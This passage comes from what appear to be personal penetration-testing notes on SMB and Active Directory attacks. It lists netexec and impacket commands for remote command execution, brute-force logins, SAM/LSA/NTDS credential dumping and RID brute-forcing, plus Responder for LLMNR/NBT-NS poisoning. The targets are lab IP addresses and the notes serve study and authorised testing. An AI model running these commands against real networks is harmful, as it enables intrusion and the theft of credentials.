 ```bash
--computers [COMPUTER]
                      enumerate computer users
--local-groups [GROUP]
                      enumerate local groups, if a group is specified then its members are enumerated
--pass-pol            dump password policy
--rid-brute [MAX_RID]
                      enumerate users by bruteforcing RIDs

```

### RCE 
need admin priv
```
/usr/share/doc/python3-impacket/examples/psexec.py

/usr/share/doc/python3-impacket/examples/smbexec.py

/usr/share/doc/python3-impacket/examples/atexec.py

netexec smb 10.129.202.85 -u user.list -p password.list   -x 'whoami' --exec-method smbexec
```

### Credential Gathering

```bash
# AD admin | --local-auth  for local admin | any user with suitable pemssions
netexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
netexec smb 10.10.110.17 -u administrator -p 'Password123!' --lsa
# AD admin
netexec smb 10.10.110.17 -u administrator -p 'Password123!' --ntds

/usr/share/doc/python3-impacket/examples/samrdump.py 10.129.14.128
```

### LLMNR/NBT-NS Poisoning
- for more info check [this](https://github.com/kiro6/penetration-testing-notes/tree/main/Penetration%20Testing/Active%20Directory%20Enumeration%20%26%20Attacks#llmnrnbt-ns-poisoning)
- if we are in the same network we can pretend to be a smb server and catch the user hashes 
```
1) The local host file (C:\Windows\System32\Drivers\etc\hosts) will be checked for suitable records.
2) If no records are found, the machine switches to the local DNS cache, which keeps track of recently resolved names.
3) Is there no local DNS record? A query will be sent to the DNS server that has been configured.
4) If all else fails, the machine will issue a multicast query, requesting the IP address of the file share from other machines on the network.
```
- user mistyped a shared folder's name `\\mysharefoder\` instead of `\\mysharedfolder\` In that case, the machine will send a multicast query to all devices on the network

```
 responder -I <interface name>
```
